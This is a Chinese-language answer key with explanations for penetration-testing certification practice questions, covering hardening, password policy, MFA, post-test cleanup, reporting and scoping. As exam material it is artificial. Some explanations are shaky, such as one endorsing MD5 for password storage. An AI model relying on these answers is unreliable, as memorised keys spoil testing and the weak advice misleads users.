**42. C.** 书面调查报告包含高度敏感信息，因此应安全销毁。不应以允许被盗取或重构的方式处置。在本场景中，擦除驱动器将使从驱动器恢复文件变得更加困难。

**43. D.** 书面调查报告包含高度敏感信息，因此应安全销毁。不应以允许被盗取或重构的方式处置。在本场景中，粉碎文档将使从报告中恢复数据变得更加困难。

**44. A.** 书面调查报告包含高度敏感信息，因此应安全销毁。不应以允许被盗取或重构的方式处置。在本场景中，物理销毁廉价 U 盘将使从报告中恢复数据变得更加困难。

**45. B.** 书面调查报告包含高度敏感信息，因此应安全销毁。不应以允许被盗取或重构的方式处置。在本场景中，物理销毁光盘将使从报告中恢复数据变得更加困难。

## 缓解策略分类

**46. A.** 为 VPN 连接实施多因素身份验证是技术缓解策略的一个示例。

**47. B.** 为所有员工实施定期安全意识培训是基于人的缓解策略的一个示例。

**48. C.** 员工离职时实施离职流程是基于流程的缓解策略的一个示例。

**49. B.** 要求 IT 员工通过网络安全认证考试是基于人的缓解策略的一个示例。

**50. A.** 要求复杂密码和实施账户限制是技术缓解策略的示例。

**51. B.** 雇佣具有网络安全经验的额外 IT 员工是基于人的缓解策略的一个示例。

**52. C.** 禁止员工使用 Google Drive 等外部基于云的服务是基于流程的缓解策略的一个示例。

**53. A.** 在主入口实施人员互锁门是技术缓解策略的一个示例。

**54. A.** 实施定向无线天线和操纵接入点功率电平以防止信号泄露是技术缓解策略的示例。

**55. C.** 要求付款需多方签署是基于流程的缓解策略的一个示例。

**56. B.** 对员工进行安全意识培训是基于人的缓解策略的一个示例。

## 共享本地管理员凭据修复

**57. D.** 在此处提供的选项中，修复共享本地管理员凭据的最佳建议就是简单地将这些凭据随机化。否则，一台桌面上本地管理员密码的泄露将导致组织中所有其他桌面面临风险。

**58. B.** 在此处提供的选项中，修复共享本地管理员凭据的最佳建议是实施微软的 `Local Administrator Password Solution (LAPS)`。该解决方案定期将本地管理员密码随机化，并将这些机密保存在 `Active Directory` 中。

## 组策略密码设置

**59. B 和 C。** `密码必须符合复杂性要求` 和 `最小密码长度` 组策略设置可用于强制实施一定程度的密码复杂性。默认情况下，`密码必须符合复杂性要求` 策略要求密码至少六个字符长，并包含以下四类字符中的三类：大写字母、小写字母、数字和特殊字符。最小密码长度定义了密码可包含的最少字符数。

**60. A.** `强制密码历史` 组策略设置决定了用户在重复使用旧密码之前必须使用的唯一新密码数量。配置此策略通过防止用户重复使用旧密码来增强安全性。

**61. D.** `最大密码期限` 组策略设置决定了用户在被要求更改为新密码之前可以保留同一密码的时间长度。一旦该时间段过去，用户将被强制创建新密码。

**62. C.** `最小密码期限` 组策略设置决定了用户在被允许更改为新密码之前必须保留同一密码的时间长度。在该时间段过去之前，用户被强制保留同一密码。这可防止用户不断更改密码以试图绕过 `强制密码历史策略` 设置。

**63. A.** `chage` 命令可用于 Linux 系统上为用户账户配置密码期限。

## 账户锁定策略

**64. D.** `账户锁定阈值` 组策略设置决定了在账户被锁定之前允许用户进行失败登录尝试的次数。被锁定的账户无法再次使用，直到管理员将其解锁或账户的锁定期已过。此策略设置可通过在仅几次猜测尝试后锁定账户来帮助防止暴力破解攻击。

**65. B.** `账户锁定时长` 组策略设置决定了被锁定的账户在自动解锁之前保持锁定状态的时间长度。此策略设置通过大幅增加进行攻击所需的时间来帮助防止暴力破解攻击。

**66. C.** `重置账户锁定计数器` 组策略设置决定了失败登录尝试后必须经过多长时间，失败登录尝试计数器才会重置为 0。此策略设置通过大幅增加进行攻击所需的时间来帮助防止暴力破解攻击。

**67. A.** `chage` 命令可用于 Linux 系统上在一定时间后自动锁定用户账户。这可防止过期的用户账户被攻击者或心怀不满的前员工用于获取未授权访问。

## 密码存储与加密

**68. A.** `使用可逆加密存储密码` 策略极不安全。它被包含在现代部署中是为了提供与旧应用程序的向后兼容性。启用了此策略的客户应被告知安全后果，并考虑升级到不需要该策略的新应用程序。

**69. B.** 由于该应用程序是内部开发的，客户应能够重写代码，使密码在保存到数据库之前由应用程序加密。

**70. A.** `chage` 命令可用于 Linux 系统上为用户账户配置密码期限。例如，它可用于在用户若干天内未更改密码时锁定用户账户。

## 密码攻击与防御

**71. C.** 彩虹表是哈希值的预计算表，可用于逆向哈希函数。例如，如果明文密码已通过哈希进行保护，你可能可以使用彩虹表来逆向哈希函数并暴露原始明文密码。

**72. A.** 哈希加盐涉及向哈希操作添加额外的随机数据。此机制通常用于保护哈希密码免遭逆向哈希（这将暴露明文密码）。

**73. B.** 密钥延展涉及将待哈希的值通过哈希函数运行多次。这增加了哈希每个密码所需的计算时间，但也极大地增加了预计算攻击所需的彩虹表大小。

## 多因素身份验证 (MFA)

**74. C.** 用户名和密码都是“你所知”因素的示例，因此不构成多因素身份验证。指纹扫描是“你所是”因素的示例。要求指纹扫描将提高系统安全性，因为用户登录将需要来自多个类别的身份验证因素。

**75. A.** PIN 是“你所知”因素的一个示例。

**76. C.** 视网膜扫描是“你所是”因素的一个示例。理论上，没有两个人应该具有相同的此类因素属性。

**77. C.** 连接到组织内部 LAN 的有线连接是“你所在”因素的一个示例。身份验证可能会根据此因素被允许或拒绝。

**78. A.** RFID 接近读卡器可用于防止用户在未亲自到达系统现场时进行身份验证。

**79. C.** 要求用户提供生物识别扫描（你所是）以及 PIN（你所知）构成多因素身份验证。

**80. B.** 要求用户提供密码（你所知）加上安全令牌生成器（你所有）构成多因素身份验证。

**81. D.** 双因素身份验证 (2FA) 要求用户提供来自两个不同类别的因素。在这种情况下，要求用户提供用户名（你所知）、PIN（你所知）和面部识别扫描（你所是）构成 2FA 身份验证。

**82. B.** 三因素认证 (3FA)

三因素认证 (3FA) 要求用户提供来自三个不同类别的因素。在本例中，要求用户提供用户名（你知道的）、PIN 码（你知道的）、指纹扫描（你本身的特征）和一次性密码（你拥有的）即构成 3FA 认证。

## 应用程序安全

**83. A. 输入清理**

在此场景中，你可以建议重写应用程序，使所有用户输入在提交到后端数据库之前都经过清理。例如，假设应用程序包含一个用户本应输入电话号码的字段。程序员可以验证输入的信息仅包含数字（且仅包含电话号码的正确位数）。这可以防止恶意攻击者向这些字段提交 SQL 语句，从而潜在地泄露数据库中的信息。

**84. A. 数据转义**

在此场景中，你可以建议重写应用程序，使数据经过转义。转义是通过去除不需要的信息（如格式错误的 HTML 或脚本标签）来保护数据的过程。这可以防止数据被视为代码。转义数据有助于在为最终用户渲染之前保护信息，并有助于防止 SQL 注入以及跨站脚本攻击。

**85. C. 参数化查询**

使用参数化查询通常被认为比清理用户输入能更好地防御 SQL 注入攻击。使用参数化查询时，会使用带有绑定变量的预编译语句来访问 SQL 数据库。

## 服务器加固

**86. A. 最小化攻击面**

服务器上启用的每一项网络服务都会扩大该服务器的攻击面。因此，应仅安装实际需要的服务。在此场景中，Web 服务器可能不需要运行 DNS、DHCP、打印或电子邮件服务。应将其移除。

**87. B 和 D. 域控制器加固**

服务器上启用的每一项网络服务都会扩大该服务器的攻击面。因此，应仅安装实际需要的服务。在此场景中，域控制器不应运行 Hyper-V（用于虚拟化）。同样，联合服务仅用于将一个 Active Directory 域链接（“联合”）到另一个不同的 Active Directory 域的情况。

**88. A 和 E. Windows 用户账户加固**

要加固基于 Windows 的计算机系统上的用户账户，应使用组策略配置账户锁定。这将有助于减缓甚至防止暴力破解或密码猜测攻击。还应立即禁用或删除所有未使用的用户账户。

**89. B 和 D. Windows 密码策略**

要加固基于 Windows 的计算机系统上的用户账户，应使用组策略强制执行密码复杂性要求。例如，你可以要求特定的密码长度和特定的字符组合。还应使用组策略强制执行密码期限要求。这要求用户定期更改密码。

**90. E. 网络访问限制**

要加固基于 Windows 的计算机系统上的网络通信，应将通过网络对计算机的访问限制为仅限经过身份验证的用户。

**91. A. Windows 防火墙配置**

要加固基于 Windows 的计算机系统上的网络通信，应正确配置 Windows 防火墙。首先，应关闭所有端口，以确保没有端口被意外留开。然后仅为已安装且系统所需的服务打开端口。

**92. A 和 C. Windows 系统加固**

要加固基于 Windows 的计算机系统，应考虑安装额外的系统内存 (RAM) 并禁用 Windows 分页文件。这可以防止本应仅以未加密格式存储在内存中的敏感数据被写入硬盘页面文件。还应禁用任何不需要的服务。

**93. D. 禁用自动运行**

要加固基于 Windows 的计算机系统，应禁用自动运行。这有助于防止当受感染的光盘或 USB 驱动器插入系统时，恶意软件被安装到系统上。

**94. A. Linux 基于主机的防火墙**

要加固基于 Linux 的服务器系统，应通过启用和配置 `iptables` 确保基于主机的防火墙正在运行。首先应在防火墙中关闭所有网络端口，然后仅打开系统上运行的特定服务所需的端口。

**95. B. SSH 与 Telnet**

要加固基于 Linux 的服务器系统，应确保使用 SSH 而非 Telnet 进行远程访问。SSH 会加密 SSH 服务器和 SSH 客户端之间的所有网络流量。而 Telnet 以明文形式传输所有数据，包括身份验证凭据。

**96. A. 使用 netstat 进行服务审计**

要加固服务器系统，应确保仅安装其角色所需的服务和应用程序。`netstat` 命令可用于检查系统上的监听网络端口。这将显示系统上正在运行的服务。

**97. B. 通过 /etc/shadow 进行密码验证**

要加固服务器系统，应确保所有用户账户都分配了密码。一种方法是查看 `/etc/shadow` 文件，寻找未分配密码的账户。

**98. D. 使用 passwd 进行账户锁定**

要加固服务器系统，应确保所有过期的用户账户被禁用或删除。在此场景中，客户不想删除账户，因为临时或合同用户将来可能会回来。要手动锁定账户，可以使用 `passwd –l` 命令，后跟用户名。

**99. C. 集中式日志记录**

加固服务器系统的一种方法是将其重新配置为将日志条目保存到网络上其他位置的专用日志记录服务器。这使得攻击者在入侵后更难掩盖踪迹，因为日志文件不存储在本地。

## 安全协议替代

**100. A. FTPS 与 FTP**

FTP 协议不会加密系统间的数据传输。这意味着身份验证信息以及数据本身在网络传输过程中都是暴露的。为了解决这个问题，你应该建议客户改用 FTPS 而不是 FTP。FTPS 协议使用 SSL 或 TLS 来加密 FTP 会话，因为它们可以加密数据。

**101. D. SSH 与 Telnet**

Telnet 协议不使用加密来保护网络传输，这意味着远程系统的身份验证凭据以及正在传输的数据均以明文形式发送。为了解决这个问题，你应该建议客户使用 Secure Shell (SSH) 服务器和客户端进行远程服务器访问。SSH 会加密系统间的身份验证信息以及数据传输。

**102. A. SCP 与 RCP**

`rcp` 实用程序不使用加密来保护网络传输，这意味着远程系统的身份验证凭据以及正在传输的数据均以明文形式发送。为了解决这个问题，你应该建议客户使用 `scp` 命令在服务器之间复制文件。`scp` 实用程序是 SSH 套件的一部分，可加密系统间的身份验证信息以及数据传输。

## 无线网络加固

**103. B. 无线控制器凭据**

在此场景中，可以通过更改无线控制器上的默认管理用户名和密码来加固无线网络。互联网上很容易找到默认用户名和密码列表，不应使用它们。

**104. A 和 B. 无线网络加固**

在此场景中，可以通过实施 MAC 地址过滤来加固无线网络。这通过防止未经授权的系统连接到无线网络提供了一层基本保护。然而，一旦识别出已知的有效 MAC 地址，MAC 地址很容易被伪造。因此，可以通过实施 802.1x 身份验证进一步加固无线网络。这通过实施单独的身份验证服务器（如 RADIUS 服务器）消除了与预共享密钥相关的弱点。

**105. A 和 D**

在此场景中，可通过使用定向接入点来加固无线网络。这有助于防止信号辐射到停车场。此外，应在无线网络上禁用 `DHCP`。虽然这会使管理变得更加困难，但也能防止攻破无线网络的攻击者自动接收访问网络资源所需的所有配置信息。

## 路由器与物理安全

**106. B 和 C**

在此场景中，可通过为特权访问创建加密密码来加固路由器。这通过路由器上的 `enable secret` 命令完成。此外，应建立程序以审查声称是 IT 供应商代表的访客。

## 渗透测试后清理

**107. A**

渗透测试后，撤销所做的一切操作至关重要。完成此项工作的最佳方法是，在测试过程中仔细记录所做的一切。这样，您将拥有必须恢复的内容及其清理后应有状态的记录。

**108. A 和 C**

渗透测试后，撤销所做的一切操作至关重要。例如，如果您设置了任何 Shell 会话（尤其是反向 Shell），需要确保将其移除。此外，您应在测试后清理过程中记录所做的一切。在清理过程中，您可能会无意中破坏某些东西。如果发生这种情况，拥有您所做操作的文档将非常宝贵。

**109. B**

渗透测试后，撤销所做的一切操作至关重要。例如，如果您创建了任何后门用户账户，应确保移除这些凭据。不应将这些保留在原处，因为真正的攻击者稍后可能会利用它们来攻破系统。

**110. A**

渗透测试后，撤销所做的一切操作至关重要。例如，卸载测试期间用于实施漏洞利用的任何工具或实用程序至关重要。

## 渗透测试后报告与验收

**111. A**

渗透测试后，将发生的情况和发现的问题告知客户至关重要。在发现证明过程中，您将详细的发现证据告知客户。客户随后可使用此信息修复发现的问题。

**112. C**

渗透测试完成后，测试人员通常会要求客户同意（通常以书面形式）测试人员已履行最初与客户签署的合同。此过程称为 **客户验收**。

**113. C**

渗透测试完成后，客户通常会要求测试人员返回并重新测试所有内容，以确保测试期间发现的问题已得到修复。此过程有时称为 **后续行动**。

**114. A 和 C**

渗透测试完成后，您应与团队会面并讨论经验教训。您应找出哪些做得好以及需要改进的地方。例如，您应讨论哪些漏洞利用奏效，哪些没有。您应记录使用这些漏洞利用的最佳实践，以便下次进行渗透测试时不必重新学习。

**115. C**


通用漏洞评分系统（`CVSS`）是评估安全漏洞严重程度的行业标准。它提供了一种根据多种指标对每个漏洞进行评分的技术。安全分析师通常使用 `CVSS` 评级来确定响应行动的优先级。每个指标都会获得一个描述性评级和一个数字分数。

## 116. A 和 B

这些可能是需要立即与客户沟通的时刻。以下是一些常见的渗透测试沟通触发条件。沟通触发条件应在测试阶段完成后、发现关键结果时或发现先前妥协指标时执行。在此场景中，如果系统在尝试测试后变得不可用，且系统显示先前未经授权访问的迹象，我们需要联系客户。

## 117. D

在此场景中，客户没有预算立即修复所有发现的漏洞。在这种情况下，给客户的最佳建议是先修复最关键的漏洞，然后在资金可用时修复其他关键漏洞。

## 118. A

在此场景中，由于公共 Web 服务器上有多个高编号端口处于监听状态。最佳建议是禁用不需要的服务，因为客户仅使用端口 443。不必要的服务会带来安全风险，因为它们增加了攻击面，为潜在攻击者提供了尝试攻破系统的额外途径。

## 119. C

系统加固（也称为操作系统加固）有助于最大程度地减少安全漏洞。系统加固的目的是尽可能消除安全风险。这通常通过从计算机中移除所有非必要的软件程序和实用程序来完成。通过移除未使用的程序、账户、功能、应用程序、端口、权限、访问权限等来实现系统加固的目标是：攻击者获得访问网络机会更少。系统加固活动有多种类型，包括：

*   应用程序加固
*   操作系统加固
*   服务器加固
*   数据库加固
*   网络加固

## 120. B、E 和 G

在这种情况下，由于测试人员能够攻破单个工作站并在网络中横向移动，给客户的最佳建议如下：

*   **使用多因素认证。** 多因素认证（`MFA`）是一种认证方法，计算机用户只有在成功向认证机制提供两个或更多证据（或因素）后才能获得访问权限。
*   **增加最小密码复杂度。** 复杂密码以独特方式使用不同类型的字符来提高安全性，使攻击者更难破解。
*   **启用全盘加密。** 全盘加密（`FDE`）是硬件级别的加密。`FDE` 通过自动将硬盘上的数据转换为没有密钥无法“撤销”转换的任何人都无法理解的形式来工作。

## 121. B

在此场景中，题目指出渗透测试人员正在编写一份“概述总体风险级别”的报告。鉴于此说法，测试人员将在**执行摘要**中包含此信息。执行摘要是报告中最重要的部分。它应以清晰的方式传达报告的所有重要结论，并使用“大白话”编写。测试人员应用通俗易懂的语言解释发现的内容，并用客户能理解的术语描述对业务的风险。

## 122. B

在此场景中，由于渗透测试人员发现了关键漏洞，测试人员应立即将发现详情通知客户。

## 123. A

在此场景中，攻击者正在使用重定向。安全分析师应阻止 URL 重定向。URL 重定向是一种 Web 服务器功能，可将用户从一个 URL 发送到另一个 URL。重定向通常采用自动重定向的形式，使用 HTTP 协议中定义的一系列状态码之一。因此，当 Web 浏览器尝试打开已重定向的 URL 时，将打开一个具有不同 URL 的页面。

## 124. A、F 和 G

在此场景中，测试人员应建议客户提高密码复杂度要求，因为测试人员能够通过字典攻击破解密码。测试人员还应建议所有员工接受安全意识培训，因为当测试人员使用钓鱼技术时，是 IT 部门的一名成员泄露了相关信息。测试人员还应建议升级 VPN 解决方案所使用的密码套件。密码套件是一组算法，有助于保护使用传输层安全性 (`TLS`) 或安全套接字层 (`SSL`) 的网络连接。密码套件通常包含的算法集包括密钥交换算法、批量加密算法和消息认证码 (`MAC`) 算法。

## 125. A

在此场景中，测试人员应建议客户启用 HTTP 严格传输安全性 (`HSTS`)。`HSTS` 响应标头允许网站告知浏览器，该网站只能通过 HTTPS 访问，而不能使用 HTTP。这是一种选择加入的安全增强功能，由 Web 应用程序通过使用特殊的响应标头来指定。一旦支持的浏览器收到此标头，该浏览器将阻止通过 HTTP 向指定域发送任何通信，而是将所有通信通过 HTTPS 发送。

## 126. C

在此场景中，将客户组织的风险承受能力纳入执行摘要非常重要。风险承受能力基本上是指组织在其投资方面愿意承担多少风险。任何类型的投资都存在风险，但一个人能承受多少风险就是他们的风险承受能力。这对每个组织可能都不同。你无法为风险承受能力设定一个固定值。

## 127. D

在此场景中，由于测试是由内部初级管理员执行的，公司最好创建一份提案请求 (`RFP`)，聘请专业的渗透测试公司来验证评估结果，并向公司提供任何漏洞发现。`RFP` 是一份征求提案的文件，通常通过竞标流程发布。

## 128. A

在此场景中，询问安全分析师首先应该做什么。一旦识别出漏洞，你需要对风险及其对组织的影响进行评级。评级将决定是否足够安全以继续工作，或者是否需要采取额外的控制措施来降低或消除风险。评级取决于事件发生的可能性和漏洞的严重性。这是通过确定可能性是低、中还是高，然后对影响做同样的判断来完成的。0 到 9 的评分范围分为三部分：0 到 <3 为低，3 到 <6 为中，6 到 9 为高。

## 129. A

在此场景中，最好在经验教训阶段重新审视这种情况。经验教训会议是团队聚在一起讨论测试过程和结果的机会，客户不在场。团队成员应自由讨论测试并提出改进建议。经验教训会议是一个很好的机会，可以强调测试期间使用的任何创新技术，这些技术可能用于未来的项目。

## 130. B

在此场景中，告诉客户的最佳选择是使用智能卡和 PIN 码。多因素认证 (`MFA`) 是一种安全系统，它需要来自不同凭证类别的多种认证方法来验证用户的身份，以便登录或进行其他交易。认证类别包括：你知道的东西、你拥有的东西和你本身的东西（生物特征）。

## 131. A

最佳建议是禁用任何不需要的服务。不必要的服务会带来安全风险，因为它们增加了客户的网络攻击面，为潜在攻击者提供了多种尝试利用系统的途径。攻击面是指给定计算设备或网络中可供潜在黑客访问的漏洞总和。

## 132. A

本地管理员密码解决方案 (`LAPS`) 是一种管理管理凭据的 Microsoft 工具。它用于使用 Active Directory 对本地管理员账户凭据进行随机化。有限管理员密码协助 (`LAPA`) 并不存在。`Nessus` 是一款漏洞扫描器，而 `Metasploit` 是一个用于执行攻击和攻击网络的利用框架。

## 133. D

执行摘要不应包含技术细节。执行摘要是报告中最重要的部分。它应该以一种清晰的方式撰写，用外行能理解的术语传达报告的所有重要结论。测试人员应用通俗易懂的语言解释发现的内容，并用客户能理解的术语描述对业务的风险。

## 134. B、C 和 D

CompTIA 强调了三项重要的交战后清理活动：

*   移除渗透测试期间安装在系统上的任何 Shell。
*   移除测试期间创建的任何测试人员账户、凭据或安装的后门。
*   移除测试期间安装的任何工具。

漏洞修复是后续活动，不作为测试的一部分进行。测试人员应移除测试期间安装的任何 Shell 或其他工具，以及移除他们创建的任何账户或凭据。

## 135. D

在此场景中，你正在讨论技术。技术控制也能为许多安全威胁提供有效的防御。补救活动主要有三大类。这些类别是人员、流程和技术。

## 136. B

在此场景中，你和你的同事正在讨论你们拥有的东西。物理对象可用作认证机制。寻求保护敏感信息和关键资源的组织应实施多因素认证。多因素认证实现结合了来自不同认证类别的两种或多种认证机制。认证类别包括：你知道的东西、你拥有的东西和你本身的东西（生物特征）。

# 第 6 章：模拟考试 1

## 1. A

机密性控制旨在防止泄露攻击。尽管保密协议 (`CA`) 是有助于强制双方之间保密关系的法律文件，但本题询问的是为什么保持发现的机密性很重要。如果攻击者在渗透测试期间得知发现结果，他们可能会利用这些信息攻破客户的网络。

## 2. A 和 B

交战规则 (`ROE`) 应始终包含测试的时间线，以及对任何法律的审查，特别是管辖客户的法律，以确保你不会违反任何规定。之前测试过的其他组织列表或客户竞争对手列表不需要包含在 `ROE` 文档中。客户网络的详细地图不需要用于 `ROE`，但渗透测试可能需要。

## 3. D

在此场景中，交战规则 (`ROE`) 已按需定义。`ROE` 关键要素包括以下内容：

*   约定的时间线以及何时可以进行测试。
*   包含/排除的位置、系统、应用程序或其他目标。此外，任何特殊的技术限制都应在 `ROE` 中解决。
*   渗透测试期间收集的任何信息的数据处理要求。
*   预期的行为。任何防御行为（如拒绝、黑名单或其他主动防御）可能会限制渗透测试的价值。
*   将投入测试的资源。

## 考试题目解析

### 4. D

在进行渗透测试之前，必须获得客户组织高级管理层的书面许可才能开始测试。口头许可或电子邮件许可是不可接受的。从 IT 员工处获得许可也是不可接受的。

### 5. A 和 E

在此场景中，此次业务的范围仅限于内部网络。`Microsoft Office 365`、`Google Docs` 和 `Microsoft Azure` 均为由第三方托管的基于云的服务，因此被视为超出范围。`Active Directory` 用户以及组策略中定义的密码策略将被视为在范围内。

### 6. A 和 B

在此场景中，您正在进行白盒评估。因此，在请求内部架构图作为测试的一部分时，通常应提供网络图和设施地图等文档。您可以使用这些信息帮助绘制网络拓扑，并定位关键基础设施设备，如交换机、路由器和服务器。

### 7. A

简单对象访问协议（`SOAP`）是一种消息协议规范，它定义了 Web 应用程序之间如何交换结构化信息。`SOAP` 项目文件可以从 Web 服务描述语言（`WSDL`）文件创建。

### 8. B

`Swagger` 是用于定义 `REST API` 的开放规范。`Swagger` 文档是 `REST API` 对应 `SOAP` Web 服务的 `WSDL` 文档的等价物。`Swagger` 文档指定了 `REST API` 中可用的资源列表以及可以在这些资源上调用的操作。它还指定了操作的参数列表，包括参数的名称和类型、参数是必需还是可选，以及这些参数可接受值的相关信息。因此，访问 `Swagger` 文档可让测试人员很好地了解 API 的工作原理，从而了解如何对其进行测试。

### 9. C

在此场景中，最佳方法是通过进行影响分析来确定客户对影响的容忍度。由于此漏洞扫描器可能会导致其系统瘫痪，您需要知道客户的容忍度级别以及系统瘫痪将如何影响客户。您还需要确保客户了解运行扫描器所涉及的所有风险。

### 10. A

机密性、完整性和可用性被称为 `CIA` 三要素。它是一个旨在指导组织内部信息安全策略的模型。网络安全专业人员使用此模型来描述信息安全的目标。`CIA` 三要素具有网络安全计划旨在保护的信息的三个主要特征：

*   **机密性**旨在防止未经授权访问信息或系统。
*   **完整性**旨在防止未经授权修改信息或系统。
*   **可用性**旨在确保信息和系统的合法使用始终可行。

### 11. B 和 E

了解公司政策及其对影响的容忍度是在规划业务时需要了解的两个最重要的项目。其他项目也很重要，但在此场景中，问题在于哪两个是最重要的。网络安全专业人员普遍认为漏洞管理是任何信息安全计划的关键组成部分，因此许多组织在公司政策中强制要求进行漏洞扫描，即使这不是法规要求。被评估组织的风险和影响容忍度应用于定义评估的范围和交战规则。

### 12. D

工作说明书（`SOW`）定义了业务期间将完成的工作。`SOW` 是一份定义测试目的、将进行哪些测试、将创建什么、测试完成的时间表、测试价格以及任何其他条款和条件的文档。

### 13. D

工作说明书（`SOW`）定义了业务期间将完成的工作。`SOW` 是一份定义测试目的、将进行哪些测试、将创建什么、测试完成的时间表、测试价格以及任何其他条款和条件的文档。`MSA` 定义了组织将用于任何未来工作的条款。`NDA` 是强制双方保密关系的法律文件。`NDA` 概述了涉及的各方、哪些信息应被视为机密、协议持续多长时间、何时/如何可接受披露，以及如何处理机密信息。测试人员提供给客户的详细发票只是一张发票，不是法律文件。

### 14. A

公司政策（企业政策）是在分析所有可能影响公司目标、运营和计划的内部和外部因素后制定的文档化指南集合。它由公司董事会制定。企业政策规定了公司对已知和可预见情况的应对措施。它还决定了战略的制定和实施，并指导和限制公司高管为实现其目标而制定的计划、决策和行动。在此场景中，企业政策应非常详细和具体；因此，企业系统必须使用 `MD5` 哈希算法存储密码。

### 15. A

证书绑定将主机与 `X.509` 证书（或公钥）关联起来，然后利用该关联做出信任决策。您可以使用证书绑定来帮助防止中间人攻击。通过公共网络通信时，安全地发送和接收信息非常重要。

### 16. D

红队评估通常比普通渗透测试更有针对性。红队扮演攻击者，以获取访问权限为目标，瞄准敏感数据或系统。基于目标的评估通常旨在评估组织的整体安全性，而基于合规性的评估旨在测试对特定法律的遵守情况。

### 17. A

高级持续性威胁（`APT`）是一种计算机网络攻击，其中个人或团体获得对网络的未经授权的访问，并在较长时间内保持未被检测到。`APT` 在对手层级列表中提供最高级别的威胁。高级持续性威胁行为者使用的许多技术对渗透测试人员很有用，反之亦然。如果您的持久化技术未被客户的系统监控或检测到，调查结果应包含可帮助他们针对这一潜在问题进行设计的信息。

### 18. B

国家威胁行为者已获得“批准”进行黑客攻击。他们为政府工作，旨在破坏或攻陷目标政府、组织或个人，以获取有价值的数据或情报，并可能造成具有国际意义的事件。脚本小子是使用更高级黑客编写的代码进行攻击的个人。黑客活动家通常攻击目标以发表政治声明。有组织犯罪威胁行为者是一群以经济利益为目标的网络犯罪分子。

## 19. B

灰盒测试是黑盒测试和白盒测试的结合。灰盒测试可能会向渗透测试人员提供一些关于环境的信息，但不会给予完全访问权限、凭据或配置详情。灰盒测试有助于集中渗透测试人员的精力和时间，同时提供恶意内部人员实际会遇到的精确视图。在黑盒渗透测试中，测试人员对目标没有任何先验知识。在白盒测试中，测试人员拥有关于目标的广泛知识。

## 20. B

在此场景中，客户要求测试人员进行基于目标的评估。基于目标的评估是出于特定原因进行的。示例包括验证新的安全设计、在应用程序或服务基础设施投入生产前对其进行测试，或评估组织的安全性。合并前评估通常在一个组织与另一个组织合并之前对其进行。基于合规的评估旨在确保组织遵守政府法规或公司政策。供应链评估涉及测试组织的供应商。

## 21. B

风险评估通常涉及识别漏洞区域或潜在弱点，并提供一份通往更强大安全态势的路线图。在此场景中，客户完全理解渗透测试可能会导致其网络中断，并且他们愿意接受这些风险。

## 22. B

风险响应是控制已识别风险的过程。它是任何风险管理过程中的基本步骤。风险响应是一个规划和决策过程，客户在其中决定如何处理每个风险。风险规避是消除可能对组织资产产生负面影响的危险、活动和风险敞口。在此场景中，客户通过拆除门并砌墙的方式采用了风险规避。

## 23. A

高级持续性威胁（`APT`）是一种计算机网络攻击，其中个人或团体获得对网络的未授权访问，并在较长时间内保持未被检测状态。`APT` 在对手等级列表中提供最高级别的威胁。威胁行为者通常按其能力进行评级。高级持续性威胁行为者使用的许多技术对渗透测试人员很有用，反之亦然。如果您的持久化技术未被客户的系统监控或检测到，调查结果应包含可帮助他们针对这一潜在问题进行设计的信息。

## 24. D

在此场景中，您计算机的 IP 地址被列入了黑名单。黑名单是客户防御实践的一部分。您的扫描被入侵防御系统（`IPS`）检测到，因此您计算机使用的 IP 地址被加入了黑名单。黑名单通过维护应用程序和其他“已知”信息的列表来工作。在这种情况下，您的 IP 地址被用于拒绝您访问网络。

## 25. D

白盒测试有时称为 `crystal box` 或 `full knowledge` 测试，允许测试人员查看网络内部的一切。它们是在完全了解构成目标的主要技术、配置和设置的情况下执行的。测试人员通常拥有包括网络图、系统列表和 IP 网络范围，甚至系统凭据在内的信息。白盒测试通常更完整，因为测试人员可以访问范围内的每个系统、服务或其他目标。

## 26. D

黑盒测试有时称为 `zero knowledge` 测试，旨在复制外部攻击者会遇到的情况。测试人员不提供环境的访问权限或信息，相反，他们必须收集信息、发现漏洞，并像攻击者一样穿越基础设施或系统。

## 27. C

大多数渗透测试项目的第一步是确定应测试的内容，通常称为评估的 `scope`（范围）。评估的范围决定了渗透测试人员将做什么以及他们的时间将如何花费。因此，这对评估的预算有重大影响。

## 28. C

范围蔓延是指向评估范围中添加额外项目。测试人员已超出初始评估协议的范围。

## 29. B

黑客活动家可能想要表达政治或社会观点。黑客活动家通常不是为了钱而进行攻击。他们是聚集在一起的个人或黑客团体，自视为在为不公而战。黑客活动家使用与黑客相同的工具和战术。

## 30. C

主服务协议（`MSA`）设定两个组织之间的总体条款。许多组织还会创建 `MSA`，以定义组织未来开展工作将使用的条款。这使得持续的业务往来和合同更容易处理。这有助于组织避免重新谈判的需要。当组织预期在一段时间内共同工作或创建支持协议时，`MSA` 很常见。

## 31. C

1996 年《健康保险流通与责任法案》（`HIPAA`）是一项美国立法，要求提供数据隐私和安全条款以保护医疗信息。随着网络攻击和针对健康保险公司及提供商的勒索软件攻击导致健康数据泄露激增，该法律最近变得更加重要。

## 32. B

《格雷姆-里奇-比利雷法案》（`GLBA`）也称为 1999 年《金融现代化法案》。它是一项美国联邦法律，要求金融机构解释其如何共享和保护客户的私人信息。

## 33. D


被动扫描是一种漏洞检测方法，它依赖于从目标计算机捕获的网络数据中获得的信息，无需直接交互。被动扫描对攻击者的主要优势是它不会留下可能提醒用户或管理员的痕迹。对管理员的主要优势是它不会导致目标计算机出现不良行为。被动扫描确实有局限性。它不如主动漏洞扫描详细完整，且无法检测当前未发送流量的任何应用程序。

## 34. D

开源情报（OSINT）工具和技术是指那些查阅公开可用信息以获取组织和技术细节的工具和技术，这些细节可能在渗透测试期间证明有用。OSINT 是可以轻松收集的信息。OSINT 常用于确定组织的足迹，其中包括组织拥有的所有系统、网络和其他技术的列表。

## 35. B

Nessus 是一款商业漏洞扫描工具，用于扫描各种设备，但它不是可用于 OSINT 收集的工具之一。有各种工具可协助 OSINT 收集：

*   **Censys** 是一款基于 Web 的工具，可探测整个互联网上的 IP 地址，然后通过搜索引擎为渗透测试人员提供对该信息的访问。
*   **Fingerprinting Organizations with Collected Archives (FOCA)** 是一款开源工具，用于在 Office 文档、PDF 和其他常见文件格式中查找元数据。
*   **Maltego** 是一款商业产品，可协助可视化从 OSINT 工作中收集的数据。
*   **Nslookup** 工具有助于识别与组织关联的 IP 地址。
*   **Recon-ng** 是一个模块化的 Web 侦察框架，用于组织和管理 OSINT 工作。
*   **Shodan** 是一个专业搜索引擎，可从公开来源发现易受攻击的物联网设备。
*   **theHarvester** 会搜刮搜索引擎和其他资源，以查找电子邮件地址、员工姓名以及组织的基础设施详情。

### Whois 工具

Whois 工具从关于域名所有权的公共记录中收集信息。

### 36. B

